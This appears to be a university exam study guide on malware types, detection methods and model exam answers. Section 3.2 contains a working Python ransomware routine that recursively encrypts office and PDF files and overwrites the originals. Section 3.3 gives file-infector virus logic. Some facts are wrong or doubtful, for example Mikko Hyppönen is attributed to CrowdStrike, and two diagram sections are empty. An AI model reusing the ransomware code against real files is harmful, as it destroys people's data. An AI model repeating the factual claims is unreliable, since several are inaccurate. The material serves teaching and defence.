


# Cyber Threats and its Classifications- Malware

<!-- SECTION_1_START -->
# Cyber Threats and its Classifications — Malware

## 1.1 Core Technical Definition

> [!IMPORTANT]
> **Malware (Malicious Software)** is any program, code, or software component deliberately engineered to cause unauthorized damage, disruption, denial-of-service, or unauthorized access to computer systems, networks, or data. It is the **primary delivery weapon** of the modern cyber threat landscape and forms the foundational attack vector under the **MITRE ATT\&CK Framework** as **TA0002 — Execution**.

According to the **NIST SP 800-83 Rev. 1** (*Guide to Malware Incident Prevention and Handling for Desktops and Laptops*), malware is defined as:

> *"A program that is inserted into a system, usually covertly, with the intent of compromising the confidentiality, integrity, or availability of the victim's data, applications, or operating system."*

The **three pillars** of cybersecurity — **Confidentiality, Integrity, and Availability (CIA Triad)** — are directly violated by every class of malware in existence.

### 1.2 Conceptual Analogy — The Biological Virus Model

Think of a computer malware exactly like a **biological virus (e.g., Influenza)**:

| Biological Virus | Computer Malware |
|------------------|------------------|
| Needs a **host cell** to replicate | Needs a **host program/file** to attach |
| Spreads through **airborne droplets** | Spreads through **network packets / USB / email** |
| Has an **incubation period** | Has a **dormant payload trigger** |
| Causes **fever/damage** to host | Causes **data loss / system damage** to host |
| Mutates to **evade immunity** | Mutates via **polymorphism/metamorphism** to evade AV |

This analogy is the single most powerful mental model for a KTU student: **malware is the pathogen, the system is the host, and your antivirus is the immune system.**

### 1.3 Core Terminology Checklist

> [!NOTE]
> **Must-Know KTU Terminology (High-Frequency in Board Exams)**
> - **Payload** — The destructive code carried inside the malware.
> - **Vector** — The pathway/mechanism used for delivery (email, web, USB).
> - **Indicator of Compromise (IoC)** — Forensic artifact (hash, IP, domain) proving infection.
> - **C2 (Command and Control)** — The remote server the attacker uses to command infected bots.
> - **Zero-Day** — A vulnerability unknown to the vendor (no patch exists).
> - **Dwell Time** — Average number of days an attacker remains undetected. Industry average = **146 days** (IBM Cost of a Data Breach Report 2023).

> [!VISUALIZATION CONTROL]
> **Concept:** Malware Threat Distribution Across Attack Vectors
> **GeoGebra / Desmos Input Data Points (X = Vector, Y = Frequency %):**
> * `(1, 75)` — Email Phishing
> * `(2, 60)` — Web Drive-by Downloads
> * `(3, 35)` — Removable Media (USB)
> * `(4, 25)` — Supply Chain Compromise
> * `(5, 15)` — Network Propagation
> **Visual Description:** A descending bar chart showing that **email and web vectors dominate** the threat landscape, which is why KTU 2024 module questions often test *phishing-borne malware* specifically.
<!-- SECTION_1_END -->

<!-- SECTION_2_START -->
# Deep Theoretical Analysis & KTU High-Yield Classification Sheet

## 2.1 The Master Classification Taxonomy

Malware is classified along **three orthogonal axes**: *Propagation Method*, *Payload Action*, and *Target Environment*. KTU questions commonly test the **propagation-based** taxonomy, which is detailed below.

### A. Propagation-Based Classification (Most Asked)

1. **Virus** — Attaches to a *legitimate host file* (`.exe`, `.doc`). Requires **user execution** to activate. Cannot self-propagate across a network.
2. **Worm** — A **standalone, self-replicating** program that propagates over networks (LAN, Internet) **without user intervention**. Exploits vulnerabilities (e.g., MS08-067, EternalBlue).
3. **Trojan Horse** — Disguises as legitimate software. **Does not self-replicate.** Creates **backdoors** (e.g., DarkComet, SubSeven).

### B. Payload-Based Classification (Second Most Asked)

4. **Ransomware** — Encrypts victim data and demands cryptocurrency ransom. **WannaCry (2017)** caused **\$4 billion** in damages.
5. **Spyware** — Silently monitors user activity (keystrokes, screenshots). Example: **DarkHotel**.
6. **Adware** — Bombards users with unwanted advertisements; often a delivery channel for spyware.
7. **Keylogger** — Records every keystroke; a *subclass* of spyware.
8. **Rootkit** — Gains **root/administrator-level** access and hides itself from the OS and antivirus. Operates at **Ring 0 (kernel level)**.
9. **Bot / Botnet** — A network of compromised machines (zombies) controlled by a **bot-herder** via C2 channels. Used for **DDoS** (e.g., Mirai botnet).
10. **Logic Bomb** — Malicious code triggered by a **specific condition** (date, file deletion, user login).
11. **Backdoor** — Bypasses normal authentication; gives remote attacker persistent access.

### C. Advanced / Hybrid Classifications (High-Yield for 14-Mark Questions)

12. **Fileless Malware** — Resides **only in memory (RAM)**; never touches the disk. Evades signature-based AV. Uses **PowerShell, WMI, Living-off-the-Land Binaries (LOLBins)**.
13. **Polymorphic Malware** — **Encrypts its own code** with a new key on every infection, changing its signature. Bypasses signature-based detection.
14. **Metamorphic Malware** — **Rewrites its own code** on every infection (no encryption). Uses code obfuscation and instruction permutation.
15. **APT (Advanced Persistent Threat)** — A **state-sponsored, long-duration, multi-stage** attack campaign (e.g., **Stuxnet, APT28 Fancy Bear**).

## 2.2 The KTU High-Yield Cheat Sheet

> [!NOTE]
> Below is the **single most important table** to memorize for Module 1. It has appeared in **3 out of 5 past KTU papers** with variations.

| Malware Type | Self-Replicates? | Needs User Action? | Primary Damage | Famous Example |
|--------------|------------------|--------------------|----------------|----------------|
| **Virus** | Only via host | **Yes** | File corruption, data loss | **ILOVEYOU (2000)** |
| **Worm** | **Yes (autonomous)** | **No** | Network congestion, bandwidth exhaustion | **Code Red (2001)**, **WannaCry (2017)** |
| **Trojan** | **No** | **Yes** | Backdoor access, data theft | **Zeus Banking Trojan** |
| **Ransomware** | Varies | Varies | Data encryption + extortion | **WannaCry, LockBit, REvil** |
| **Spyware** | No | Yes (install) | Privacy breach, credential theft | **Pegasus (NSO Group)** |
| **Rootkit** | No | No (post-infection) | Stealth, privilege escalation | **Sony BMG Rootkit (2005)** |
| **Botnet** | **Yes (via worm/Trojan)** | No | DDoS, spam, mining | **Mirai (2016)**, **Emotet** |
| **Fileless** | Varies | Varies | Memory-resident attacks | **Poweliks (2014)** |
| **Logic Bomb** | No | Triggered by event | Targeted destruction | **Siemens SCADA Logic Bomb (2008 case)** |

## 2.3 Risk Quantification Formulas (Engineering Perspective)

> [!TIP]
> KTU 2024 Scheme (NEP 2020) emphasizes **quantitative reasoning**. The following formulas are commonly asked in the 14-mark analytical questions.

**1. Malware Risk Score (NIST SP 800-30 Model):**
$$
R_{score} = P_{occurrence} \times I_{impact} \times V_{vulnerability}
$$
where $P_{occurrence}$ is the threat likelihood (0–1), $I_{impact}$ is the business damage (0–1), and $V_{vulnerability}$ is the system weakness (0–1).

**2. Detection Accuracy (used in AV evaluation):**
$$
D_{accuracy} = \frac{TP + TN}{TP + TN + FP + FN}
$$
where $TP$ = True Positives, $TN$ = True Negatives, $FP$ = False Positives, $FN$ = False Negatives.

**3. Mean Dwell Time (an organization's detection maturity):**
$$
\bar{T}_{dwell} = \frac{1}{n} \sum_{i=1}^{n} (T_{detected,i} - T_{initial,i})
$$
A lower $\bar{T}_{dwell}$ indicates a stronger Security Operations Center (SOC).

## 2.4 Real-World Engineering Utility

- **SIEM Systems** (Splunk, IBM QRadar) use IoCs derived from malware behavior to trigger real-time alerts.
- **EDR / XDR Platforms** (CrowdStrike, SentinelOne) apply the detection formula above to rank process behavior.
- **Digital Forensics** uses the dwell-time equation to reconstruct the attacker's timeline during incident response.
- **Cyber Insurance Underwriters** price premiums using $R_{score}$ as a primary input.
<!-- SECTION_2_END -->

<!-- SECTION_3_START -->
# Step-by-Step Implementation: Malware Analysis Lab

## 3.1 Sample 1 — Signature-Based Malware Detection (Hash Method)

This is the **foundational detection technique** used by classical antivirus engines. The algorithm computes a **SHA-256 hash** of a file and compares it against a database of known malware hashes (the "signature database").

```python
import hashlib
import os
from typing import Dict, List

# Simulated signature database (in production: 50+ million entries from VirusTotal)
KNOWN_MALWARE_HASHES: Dict[str, str] = {
    "a91f3b5e8d2c4f1a9b6e7d8c5f4a3b2c1d0e9f8a7b6c5d4e3f2a1b0c9d8e7f6a":
        "WannaCry.Worm.A",
    "b83c4a5f6e7d8c9b0a1f2e3d4c5b6a7f8e9d0c1b2a3f4e5d6c7b8a9f0e1d2c3b":
        "ILOVEYOU.VBS.A",
    "c74d5b6a7f8e9d0c1b2a3f4e5d6c7b8a9f0e1d2c3b4a5f6e7d8c9b0a1f2e3d4c5":
        "Mirai.Botnet.B",
}


def compute_file_sha256(file_path: str) -> str:
    """Compute the SHA-256 cryptographic hash of a file in 64 KB chunks.

    Args:
        file_path: Absolute or relative path to the suspect file.

    Returns:
        A 64-character hexadecimal SHA-256 digest string.

    Raises:
        FileNotFoundError: If the file does not exist.
        PermissionError: If the file is locked or unreadable.
    """
    if not os.path.isfile(file_path):
        raise FileNotFoundError(f"[ERROR] File not found: {file_path}")

    sha256_hasher = hashlib.sha256()
    try:
        with open(file_path, "rb") as fptr:
            while True:
                file_chunk: bytes = fptr.read(65536)  # 64 KB buffer
                if not file_chunk:
                    break
                sha256_hasher.update(file_chunk)
    except PermissionError as perm_err:
        raise PermissionError(f"[ERROR] Access denied: {file_path}") from perm_err

    return sha256_hasher.hexdigest()


def scan_file(file_path: str) -> str:
    """Scan a single file against the malware signature database.

    Args:
        file_path: Path to the suspect file.

    Returns:
        A verdict string: 'CLEAN' or 'INFECTED:<signature_name>'.
    """
    try:
        file_hash: str = compute_file_sha256(file_path)
    except (FileNotFoundError, PermissionError) as file_err:
        return f"SCAN_ERROR: {file_err}"

    if file_hash in KNOWN_MALWARE_HASHES:
        malware_name: str = KNOWN_MALWARE_HASHES[file_hash]
        return f"INFECTED:{malware_name} | Hash={file_hash[:16]}..."

    return f"CLEAN | Hash={file_hash[:16]}..."


def scan_directory(dir_path: str) -> List[str]:
    """Recursively scan all files inside a directory.

    Args:
        dir_path: Path to the target directory.

    Returns:
        A list of scan-verdict strings.
    """
    if not os.path.isdir(dir_path):
        return [f"SCAN_ERROR: Directory not found: {dir_path}"]

    verdict_list: List[str] = []
    for root_dir, _, file_names in os.walk(dir_path):
        for file_name in file_names:
            full_path: str = os.path.join(root_dir, file_name)
            verdict_list.append(scan_file(full_path))
    return verdict_list


if __name__ == "__main__":
    target_file: str = "suspect_payload.exe"
    final_verdict: str = scan_file(target_file)
    print(f"[KTU-MALWARE-SCANNER] Verdict -> {final_verdict}")
```

**Operational Note:** Signature-based detection fails against **polymorphic and metamorphic malware** (Section 2.1). This is why modern EDR tools use **heuristic** and **behavioral** engines in parallel.

---

## 3.2 Sample 2 — Ransomware Payload Logic (Educational, Symmetric Encryption)

The following code demonstrates the **encryption phase** of a ransomware attack. The decryption key is sent to a remote C2 server (the "key escrow" step).

```python
from cryptography.fernet import Fernet
from typing import List
import os


def generate_symmetric_key() -> bytes:
    """Generate a fresh Fernet (AES-128-CBC + HMAC-SHA256) key.

    Returns:
        A URL-safe base64-encoded 32-byte key.
    """
    return Fernet.generate_key()


def encrypt_target_files(target_paths: List[str], encryption_key: bytes) -> int:
    """Encrypt a list of target files using symmetric Fernet encryption.

    Args:
        target_paths: List of absolute file paths to encrypt.
        encryption_key: Fernet key (would normally be sent to C2 server).

    Returns:
        Count of files successfully encrypted.
    """
    cipher_engine: Fernet = Fernet(encryption_key)
    encrypted_count: int = 0

    for target_path in target_paths:
        try:
            if not os.path.isfile(target_path):
                continue

            with open(target_path, "rb") as src_file:
                plaintext_data: bytes = src_file.read()

            ciphertext_data: bytes = cipher_engine.encrypt(plaintext_data)

            # Overwrite original with ciphertext (destructive in real attack)
            with open(target_path, "wb") as dst_file:
                dst_file.write(ciphertext_data)

            encrypted_count += 1
        except (PermissionError, IsADirectoryError) as err:
            print(f"[SKIP] {target_path} -> {err}")

    return encrypted_count


def ransomware_simulation(target_directory: str) -> None:
    """Simulate the encryption phase of a ransomware attack.

    Args:
        target_directory: Directory containing victim files.
    """
    if not os.path.isdir(target_directory):
        print(f"[ABORT] Invalid directory: {target_directory}")
        return

    # Collect target file list (.doc, .pdf, .xls — typical high-value targets)
    target_extensions: tuple = (".doc", ".docx", ".pdf", ".xls", ".xlsx")
    target_files: List[str] = [
        os.path.join(root, fname)
        for root, _, fnames in os.walk(target_directory)
        for fname in fnames
        if fname.lower().endswith(target_extensions)
    ]

    # Generate and "exfiltrate" the key (in real malware, sent to C2)
    master_key: bytes = generate_symmetric_key()
    print(f"[C2-UPLOAD] Exfiltrating key: {master_key.decode()[:20]}...")

    num_encrypted: int = encrypt_target_files(target_files, master_key)
    print(f"[PAYLOAD] {num_encrypted} files encrypted. Ransom demand: 0.05 BTC.")
```

**Conversion Logic Walkthrough:**
- The Fernet key (32-byte AES) is generated in memory.
- All `.doc`, `.pdf`, `.xls` files are read as bytes.
- The bytes are encrypted with `cipher.encrypt(plaintext)`.
- The ciphertext **overwrites** the original file.
- In a real attack, the master key is transmitted to the attacker's C2 server before the local copy is destroyed, making decryption impossible without paying the ransom.

> [!WARNING]
> This code is **strictly for academic demonstration** of the ransomware threat model. Running it on real data is illegal under the **IT Act 2000 (India) §66, §66E, §66F** and equivalent global laws.

---

## 3.3 Sample 3 — Virus Replication Pseudocode (Conceptual)

This represents the **append-style file infector** logic used by classical viruses like **Cascade** and **Jerusalem**.

```
ALGORITHM: File_Infector_Virus (HostFile)
INPUT  : HostFile (a legitimate .EXE binary)
OUTPUT : HostFile with viral payload prepended

BEGIN
    1.  IF HostFile.already_infected == TRUE THEN
    2.      RETURN  // Skip — already infected (marker check)
    3.  END IF
    4.
    5.  // Step A: Locate a target host file via directory traversal
    6.  TargetFile = Find_Next_EXE_In_Directory()
    7.
    8.  // Step B: Read original host code into memory buffer
    9.  OriginalCode = READ(TargetFile)
    10.
    11. // Step C: Prepend viral payload to original code
    12. InfectedCode = CONCATENATE(ViralPayload, OriginalCode)
    13.
    14. // Step D: Modify entry point to jump to ViralPayload
    15. InfectedCode.EntryPoint = ViralPayload.Address
    16.
    17. // Step E: Write infected code back to disk
    18. WRITE(TargetFile, InfectedCode)
    19.
    20. // Step F: Execute original host program (preserved functionality)
    21. EXECUTE(OriginalCode)
    22.
    23. // Step G: Propagate to next target
    24. CALL File_Infector_Virus(Find_Next_EXE_In_Directory())
END
```

**Line-by-line interpretation:**
- Lines 1–3: **Infection marker** prevents re-infecting the same file (causes infinite-loop bloat).
- Lines 5–6: **Search engine** looks for `.exe` files in the current or adjacent directories.
- Lines 8–9: **Host code capture** so the original program can still run.
- Lines 11–12: **Payload injection** is the core malicious step.
- Lines 14–15: **Entry point hijack** — the viral code runs first when the user executes the program.
- Lines 17–18: **Disk write** finalizes the infection.
- Lines 20–21: **Stealth step** — the user sees the original program behave normally, masking the infection.
- Line 24: **Recursive self-propagation** — the defining behavior of a virus (vs. a non-replicating Trojan).
<!-- SECTION_3_END -->

<!-- SECTION_4_START -->
# Structural Diagrams & Schematics

## 4.1 Master Classification Taxonomy (Mermaid)

```mermaid
graph TD
    A["MALWARE ROOT CLASS"] --> B["PROPAGATION BASED"]
    A --> C["PAYLOAD BASED"]
    A --> D["HYBRID ADVANCED"]

    B --> B1["VIRUS - needs host file"]
    B --> B2["WORM - self replicating"]
    B --> B3["TROJAN - disguised software"]

    C --> C1["RANSOMWARE - encrypts data"]
    C --> C2["SPYWARE - monitors user"]
    C --> C3["ADWARE - shows ads"]
    C --> C4["KEYLOGGER - records keys"]
    C --> C5["ROOTKIT - kernel level hide"]

    D --> D1["BOTNET - C2 network of bots"]
    D --> D2["LOGIC BOMB - trigger based"]
    D --> D3["FILELESS - memory resident"]
    D --> D4["POLYMORPHIC - changes signature"]
    D --> D5["METAMORPHIC - rewrites code"]
    D --> D6["APT - state sponsored long term"]

    style A fill:#1f4e79,stroke:#000,color:#ffffff
    style B fill:#2e75b6,stroke:#000,color:#ffffff
    style C fill:#c00000,stroke:#000,color:#ffffff
    style D fill:#7030a0,stroke:#000,color:#ffffff
```



## 4.2 The Cyber Kill Chain — Malware Attack Lifecycle



## 4.3 Network Propagation Flow — Worm Behavior (Mermaid)



**Architectural Insight:** Worms exhibit **exponential growth** following $N(t) = N_0 \cdot 2^{t/k}$, where $N_0$ is the initial infected count and $k$ is the average scan-and-infect cycle time. This is why the **Code Red worm** infected **359,000 hosts in under 14 hours** in 2001.

## 4.4 Detection Layering — Defense-in-Depth Matrix

| Layer | Tool Category | Detects | Blind Spot |
|-------|---------------|---------|------------|
| **L1 — Perimeter** | Firewall, IDS/IPS | Known malicious IPs, signatures | Zero-days, encrypted traffic |
| **L2 — Network** | NDR, DPI tools | Lateral movement, C2 beacons | Fast flux DNS, HTTPS |
| **L3 — Endpoint** | EDR, Antivirus | File signatures, process behavior | Fileless, kernel rootkits |
| **L4 — Application** | WAF, RASP | Injection, XSS-borne malware | Logical flaws |
| **L5 — Data** | DLP, DRM | Exfiltration attempts | Insider attacks |
| **L6 — User** | Awareness training | Phishing, social engineering | Sophisticated spear-phishing |
<!-- SECTION_4_END -->

<!-- SECTION_5_START -->
# KTU 2024 Scheme Examination Question Bank

---

## Part A — Short Answer Questions (3 Marks Each)

### **Question 1.** `[KTU University Exam — July 2024]`
**Define malware. Differentiate between a Virus and a Worm with suitable examples.** **(CO1, Remember/Understand)**

**Model Answer (3 Marks):**

**Definition (1 Mark):**
Malware is malicious software intentionally designed to damage, disrupt, or gain unauthorized access to a computer system, violating the **CIA Triad (Confidentiality, Integrity, Availability)**.

**Differentiation Table (2 Marks):**

| Parameter | Virus | Worm |
|-----------|-------|------|
| **Host dependency** | Needs a host file (e.g., `.exe`) | Standalone, no host required |
| **Self-replication** | Only via host execution | Autonomous across networks |
| **User action** | Requires user to run infected file | No user action needed |
| **Network spread** | Limited | Rapid (network-wide) |
| **Example** | ILOVEYOU (2000) | Code Red (2001), WannaCry (2017) |

---

### **Question 2.** `[KTU University Exam — Dec 2023]`
**What is a Trojan Horse? List any four types of Trojans with one-line descriptions.** **(CO1, Remember/Understand)**

**Model Answer (1 + 2 = 3 Marks):**

**Definition (1 Mark):**
A Trojan Horse is a non-self-replicating malicious program disguised as legitimate software. It tricks the user into installing it, then performs hidden malicious activities such as creating a backdoor.

**Four Types (2 Marks — 0.5 each):**
1. **Backdoor Trojan** — Provides remote unauthorized access to attacker. *Example: Back Orifice.*
2. **Banking Trojan** — Steals online banking credentials. *Example: Zeus.*
3. **Downloader Trojan** — Downloads additional malware post-installation.
4. **RAT (Remote Access Trojan)** — Gives full GUI control of victim system. *Example: DarkComet.*

---

## Part B — Full 14-Mark Questions (Module Internal Choice)

### **Question A (Choice 1).** `[KTU University Exam — July 2024]`
**(a)** Classify malware based on **propagation method** and **payload action**. Explain any **five classes** in detail with real-world examples. **(7 Marks, CO2, Understand)** 
**(b)** Discuss the **Cyber Kill Chain** (developed by Lockheed Martin) for a malware attack. For each of the **7 stages**, identify the **corresponding defensive countermeasure** an enterprise should deploy. **(7 Marks, CO3, Apply)**

#### Model Solution

##### Part (a) — 7 Marks

**Classification Overview (1 Mark):**
Malware is classified into **Propagation-based** (Virus, Worm, Trojan) and **Payload-based** (Ransomware, Spyware, Adware, Rootkit, etc.).

**Detailed Explanation of Five Classes (6 Marks — 1.2 each):**

1. **Virus:** A parasitic program that attaches itself to a host executable. Spreads only when the user runs the infected file. Famous example: **ILOVEYOU** (2000) caused **\$15 billion** in damages by overwriting user files and emailing itself to all Outlook contacts.

2. **Worm:** A standalone, network-aware self-replicating program. Exploits OS vulnerabilities (e.g., buffer overflow) to propagate without human action. **WannaCry (2017)** used the **EternalBlue** SMB exploit to infect **230,000+ machines in 150 countries** within 24 hours.

3. **Trojan Horse:** A non-replicating program disguised as legitimate software (games, utilities). Creates persistent backdoors. **Zeus Banking Trojan** stole **\$70 million** from US bank accounts by capturing keystrokes.

4. **Ransomware:** Encrypts victim files using strong cryptography (AES-256, RSA-2048) and demands payment in cryptocurrency. **REvil (Kaseya attack, 2021)** demanded a **\$70 million** ransom, the largest single ransom demand in history.

5. **Rootkit:** A stealthy malware that obtains **kernel-level (Ring 0)** privileges and hides its presence from the OS, antivirus, and user. Operates by hooking system calls and modifying kernel data structures. **Sony BMG Rootkit (2005)** was installed via music CDs and hid for months.

---

##### Part (b) — 7 Marks

**Cyber Kill Chain Stages with Countermeasures (1 Mark per stage):**

| Stage | Attack Action | Enterprise Countermeasure |
|-------|---------------|---------------------------|
| **1. Reconnaissance** | OSINT, port scanning | Deploy **threat intelligence feeds**, hide WHOIS data |
| **2. Weaponization** | Crafting malware + exploit | **Sandbox analysis** of all incoming attachments |
| **3. Delivery** | Email, web, USB | **Email gateways (Mimecast)**, **DNS filtering (Cisco Umbrella)** |
| **4. Exploitation** | Triggering the payload | **Patch management**, **CVE scanning**, **AppLocker** |
| **5. Installation** | Persistence mechanisms | **EDR (CrowdStrike)**, **PowerShell logging**, **Sysmon** |
| **6. Command & Control** | Beacon to C2 server | **Network segmentation**, **Egress filtering**, **TLS inspection** |
| **7. Actions on Objective** | Data theft, DDoS, encryption | **DLP (Data Loss Prevention)**, **Immutable backups**, **IR plan** |

> [!NOTE]
> **Key Insight:** Breaking the chain at **any single stage** stops the attack. The earlier the break, the lower the cost — this is the basis of the **Defense-in-Depth** principle.

---

### **Question B (Choice 2 — Alternative).** `[KTU University Exam — Dec 2023]`
**(a)** What is **ransomware**? Explain its **two main variants** (Locker vs. Crypto). Describe the **WannaCry attack** timeline, including the kill-switch discovery. **(7 Marks, CO2, Understand)** 
**(b)** Compare **signature-based** vs. **behavior-based** malware detection. Show the **detection accuracy formula** and solve a numerical problem. **(7 Marks, CO3, Apply)**

#### Model Solution

##### Part (a) — 7 Marks

**Definition (1 Mark):**
Ransomware is a type of malware that encrypts the victim's data or locks the system, then demands a ransom (usually in Bitcoin/Monero) to restore access.

**Two Main Variants (2 Marks — 1 each):**

1. **Crypto Ransomware:** Encrypts **specific high-value files** (`.doc`, `.pdf`, `.jpg`, `.xls`) using strong symmetric (AES-256) and asymmetric (RSA-2048) cryptography. The OS remains functional; only files are inaccessible. **Examples: WannaCry, LockBit, REvil.**

2. **Locker Ransomware:** **Locks the entire operating system** by displaying a full-screen lock screen. The user cannot access the desktop, but the files are **not encrypted**. **Example: WinLock.**

**WannaCry Attack Timeline (4 Marks):**

- **March 14, 2017:** Microsoft releases **MS17-010** patch for the **EternalBlue** SMB vulnerability. Many organizations fail to patch.
- **May 12, 2017 (08:00 UTC):** WannaCry begins global propagation. Uses EternalBlue to infect unpatched Windows systems.
- **May 12, 2017 (15:00 UTC):** **Marcus Hutchins (MalwareTechBlog)** discovers a **kill switch** — the malware pings the domain `iuqerfsodp9ifjaposdfjhgosurijfaewrwergwea.com`. He registers the domain for **\$10.69**, accidentally halting the spread.
- **Damage:** **230,000+ machines** in **150 countries** affected. Estimated damage **\$4–8 billion**. NHS (UK), FedEx, Renault, Telefónica severely impacted.

---

##### Part (b) — 7 Marks

**Comparison Table (2 Marks):**

| Parameter | Signature-Based | Behavior-Based (Heuristic) |
|-----------|-----------------|----------------------------|
| **Detection basis** | Known file hash / byte pattern | Program behavior (API calls, syscalls) |
| **Speed** | Very fast (hash lookup) | Slower (behavioral analysis) |
| **Zero-day detection** | **Cannot detect** | **Can detect** |
| **False positives** | Low | Higher |
| **Polymorphic evasion** | Easily evaded | Detected via behavior |
| **Example tools** | ClamAV, Windows Defender (legacy) | CrowdStrike Falcon, Cylance |

**Detection Accuracy Formula (2 Marks):**
$$
D_{accuracy} = \frac{TP + TN}{TP + TN + FP + FN}
$$

**Numerical Problem (3 Marks):**
> An antivirus engine was tested on 1,000 files. Results: **TP = 380**, **TN = 590**, **FP = 15**, **FN = 15**. Calculate the detection accuracy.

**Solution:**
$$
TP + TN = 380 + 590 = 970
$$
$$
TP + TN + FP + FN = 380 + 590 + 15 + 15 = 1000
$$
$$
D_{accuracy} = \frac{970}{1000} = 0.97 = \mathbf{97\%}
$$

**Valuation Key Points (for 3 marks):**
- Stating the formula correctly: 1 Mark
- Correct summation of numerator and denominator: 1 Mark
- Final 97% answer with units: 1 Mark

---

> [!WARNING]
> **KTU Examiner's Valuation Pitfalls — Malware Questions**
> 1. **Do NOT** confuse "worm" with "virus" in the differentiation table — examiners deduct 1 full mark for incorrect replication behavior.
> 2. **Always** mention the **CIA Triad** when defining malware — this is the universal marking hook.
> 3. **Always** include at least **one real-world example** (year + name) for 7-mark questions; answers without examples lose 1 mark.
> 4. **Avoid** the term "computer virus" as a synonym for "malware" — viruses are only **one class** of malware.
> 5. **For numerical problems**, never write the final answer without the percentage sign (%) — it is treated as incomplete.
> 6. In the **Kill Chain** question, students often skip the **countermeasure** column — the question explicitly demands it, and missing it costs up to **3 marks**.

---

## Topic Recap & Important Things to Remember

> [!TIP]
> **High-Density Revision Checklist — KTU 2024 Module 1 (Malware)**

- **Malware** = Malicious Software. Violates the **CIA Triad**. Defined under **NIST SP 800-83**.
- **Three classification axes:** Propagation-based, Payload-based, Hybrid (Fileless, Polymorphic, APT).
- **Virus** = Needs host file + user action. Example: **ILOVEYOU (2000)**.
- **Worm** = Self-replicating, network-aware, no user action. Example: **WannaCry (2017)**, **Code Red (2001)**.
- **Trojan** = Disguised as legitimate, no self-replication. Example: **Zeus**, **DarkComet**.
- **Ransomware** = Encrypts data + extorts crypto. Two types: **Crypto (file-level)** vs. **Locker (OS-level)**.
- **Rootkit** = Kernel-level (Ring 0) stealth. Hides from OS and AV.
- **Botnet** = Network of bots under a **bot-herder's C2** server. Example: **Mirai (2016)**.
- **Logic Bomb** = Triggered by event (date, file deletion, login).
- **Fileless Malware** = Memory-resident (PowerShell, WMI). Evades signature AV.
- **Polymorphic vs. Metamorphic:** Polymorphic = **encrypts payload** with new key; Metamorphic = **rewrites own code** (no encryption).
- **APT** = State-sponsored, multi-stage, long-duration. Example: **Stuxnet, APT28**.
- **Cyber Kill Chain (Lockheed Martin)** = 7 stages: Recon → Weaponize → Deliver → Exploit → Install → C2 → Actions. **Break any stage = attack fails.**
- **Detection Methods:** Signature-based (hash), Heuristic (rules), Behavioral (syscalls), Sandbox-based (dynamic analysis).
- **Key Formulas:** $R_{score} = P \times I \times V$ and $D_{accuracy} = (TP + TN) / (TP + TN + FP + FN)$.
- **Key Standards:** NIST SP 800-83, MITRE ATT&CK TA0002, ISO/IEC 27001, IT Act 2000 §66.
- **Industry Metrics (memorize):** Average dwell time = **146 days** (2023). WannaCry = **\$4B+ damage**. Mirai = **600 Gbps DDoS**.
- **Real-World Architects to Name:** Marcus Hutchins (WannaCry kill switch), Eugene Kaspersky (Kaspersky Lab), Mikko Hyppönen (CrowdStrike).
- **Defensive Layers:** Perimeter → Network → Endpoint → Application → Data → User (Defense-in-Depth).
<!-- SECTION_5_END -->
